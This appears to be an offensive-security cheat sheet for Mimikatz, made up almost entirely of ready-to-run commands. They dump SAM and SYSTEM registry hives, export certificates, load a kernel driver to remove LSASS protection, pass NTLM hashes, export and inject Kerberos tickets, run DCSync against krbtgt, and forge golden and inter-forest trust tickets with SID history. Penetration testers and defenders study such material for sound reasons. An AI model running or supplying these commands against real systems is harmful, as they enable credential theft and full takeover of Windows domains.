 # Mimikatz

## SAM File - Local accounts

#### Save files from registry

```csharp
reg save HKLM\SAM SamBkup.hiv
reg save HKLM\SYSTEM SystemBkup.hiv
```

```csharp
mimikatz # privilege::debug
mimikatz # token::elevate
mimikatz # lsadump::SAM /SAM:C:\Users\b3v1l\Desktop\SAM /SYSTEM:C:\Users\b3v1l\Desktop\SYSTEM

```

```csharp
lsadump::sam /system:SystemBkup.hiv /sam:SamBkup.hiv
```

![](../../../.gitbook/assets/image%20%28309%29.png)

## Export Certificats

```csharp
mimikatz# crypto::capi
mimikatz# privilege:debug
mimikatz# crypto::cng
mimikatz# crypto::certificates /systemstore:local_machine /store:my /export
```

## Disable LSASS protection

### Manually

* Upload mimidrv.sys on the target
* Create a service task

```csharp
sc create mimidrv binpath= C:\temp\mimidrv.sys type= kernel start= demand
```

* Start the task

```csharp
sc start mimidrv
```

* Then, using mimikatz

```csharp
!processprotect /process:lsass.exe /remove
```

### Full mimikatz version

* Copy the mimikatz and sys driver on the disk
* Start mimikatz and load the driver. Disable Lsass protection

```csharp
privilege::debug
!+
!processprotect /process:lsass.exe /remove
```

## Pass the Hash

### powershell session

```csharp
Invoke-Mimikatz -Command '"sekurlsa::pth /user:targetaccount /domain:test.lab.local /ntlm:<NTLM HASH> /run:powershell.exe"'
```

### RDP unrestricted admin

```csharp
sekurlsa::pth /user:admin /domain:domain /ntlm:<NTLM HASH> /run:"mstsc.exe /restrictedadmin"
```

## Kerberos Tickets

### List tickets

```csharp
Invoke-Mimikatz -Command '"sekurlsa::tickets"'
```

### Export tickets

```text
Invoke-Mimikatz -Command '"sekurlsa::tickets /export"'
```

### Pass the Ticket

```csharp
Invoke-Mimikatz -Command '"kerberos::ptt [0;9eaea]-2-0-60a10000-administrator@krbtgt-HOME.LAB.COM.kirbi"'
```

### Golden Ticket

#### Dcsync \(require high privilege account\)

```csharp
lsadump::dcsync /domain:target.domain.com /user:prod\krbtgt
```

#### Use krbtgt to impersonate anyone on the domain

```csharp
 kerberos::golden /user:Administrator /domain:target.domain.com /sid:S-1-5-21-634106289-36255656793-12345407 /id:500 /group/512 /krbtgt=dfdsfwefdccfbb7cc8eeadf7ce1 /startoffset=0 /endin=600 /renewmax:10080 /ptt
```

## DSync

{% hint style="info" %}
Replace /user:Domain\krbtgt by any username to get a specific hash
{% endhint %}

```csharp
 Invoke-Mimikatz -Command '"lsadump::dcsync /user:Domain\krbtgt"'
```

## Trust Key between Forest and Child

### Enterprise admin

### Get the trusted key

```csharp
 Invoke-Mimikatz -Command '"lsadump::trust /patch"' -ComputerName dc.lab.test.local
```

### Get a ticket

```csharp
Invoke-Mimikatz -Command '"Kerberos::golden /user:Administrator /domain:childomain.com /sid:<childomain.com SID> /sids:<main domain SID-519> /rc4:ea9815a
<trusted key hash> /service:krbtgt /target:maindomain.com /ticket:C:\temp\trust_tkt.kirbi"'
```

### Pass the ticket - SID history

```csharp
 Invoke-Mimikatz -Command '"kerberos::ptt krbtgt_tkt.kirbi"'
```



